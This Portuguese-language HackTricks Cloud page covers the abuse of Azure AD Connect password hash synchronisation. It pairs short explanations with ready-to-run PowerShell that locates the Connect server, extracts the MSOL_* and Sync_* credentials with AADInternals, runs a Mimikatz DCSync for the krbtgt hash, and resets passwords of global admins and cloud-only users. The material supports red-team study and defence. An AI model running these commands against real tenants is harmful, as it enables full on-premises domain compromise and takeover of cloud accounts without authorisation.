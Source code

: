 # Az - PHS - Sincronização de Hash de Senha

<details>

<summary><strong>Aprenda hacking AWS do zero ao avançado com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informações Básicas

[A partir da documentação:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) A **sincronização de hash de senha** é um dos métodos de login usados para alcançar a identidade híbrida. O **Azure AD Connect** sincroniza um hash, do hash, da senha de um usuário de uma instância do Active Directory local para uma instância do Azure AD baseada em nuvem.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

É o **método mais comum** usado pelas empresas para sincronizar um AD local com o Azure AD.

Todos os **usuários** e um **hash dos hashes de senha** são sincronizados do local para o Azure AD. No entanto, **senhas em texto claro** ou os **hashes originais** não são enviados para o Azure AD.\
Além disso, os **grupos de segurança integrados** (como administradores de domínio...) não são **sincronizados** com o Azure AD.

A **sincronização de hashes** ocorre a cada **2 minutos**. No entanto, por padrão, a **expiração de senha** e a **expiração da conta** não são sincronizadas no Azure AD. Portanto, um usuário cuja **senha local tenha expirado** (não alterada) pode continuar a **acessar recursos do Azure** usando a senha antiga.

Quando um usuário local deseja acessar um recurso do Azure, a **autenticação ocorre no Azure AD**.

**PHS** é necessário para recursos como **Proteção de Identidade** e Serviços de Domínio AAD.

## Pivotamento

Quando o PHS é configurado, algumas **contas privilegiadas** são automaticamente **criadas**:

* A conta **`MSOL_<installationID>`** é automaticamente criada no AD local. Essa conta recebe a função de **Contas de Sincronização de Diretório** (consulte a [documentação](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)), o que significa que ela tem **permissões de replicação (DCSync) no AD local**.
* Uma conta **`Sync_<nome do servidor ADConnect local>_installationID`** é criada no Azure AD. Essa conta pode **redefinir a senha de QUALQUER usuário** (sincronizado ou apenas na nuvem) no Azure AD.

As senhas das duas contas privilegiadas anteriores são **armazenadas em um servidor SQL** no servidor onde o **Azure AD Connect está instalado.** Os administradores podem extrair as senhas desses usuários privilegiados em texto claro.\
O banco de dados está localizado em `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

É possível extrair a configuração de uma das tabelas, sendo uma delas criptografada:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A **configuração criptografada** é criptografada com **DPAPI** e contém as **senhas do usuário `MSOL_*`** no AD local e a senha do **Sync\_\*** no AzureAD. Portanto, comprometendo essas informações, é possível elevar privilégios para o AD e para o AzureAD.

Você pode encontrar uma [visão geral completa de como essas credenciais são armazenadas e descriptografadas nesta palestra](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Encontrando o **servidor Azure AD Connect**

Se o **servidor onde o Azure AD Connect está instalado** estiver associado a um domínio (recomendado na documentação), é possível encontrá-lo com:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### Abusando de MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Você também pode usar [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) para obter essas credenciais.
{% endhint %}

### Abusando do Sync\_\*

Comprometendo a conta **`Sync_*`** é possível **redefinir a senha** de qualquer usuário (incluindo Administradores Globais)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Também é possível **modificar as senhas apenas dos usuários na nuvem** (mesmo que isso seja inesperado)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Também é possível extrair a senha deste usuário.

{% hint style="danger" %}
Outra opção seria **atribuir permissões privilegiadas a um principal de serviço**, o que o usuário **Sync** tem **permissões** para fazer, e então **acessar esse principal de serviço** como uma forma de escalonamento de privilégios.
{% endhint %}

### SSO Contínuo

É possível usar SSO Contínuo com PHS, o que é vulnerável a outros abusos. Verifique em:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Referências

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
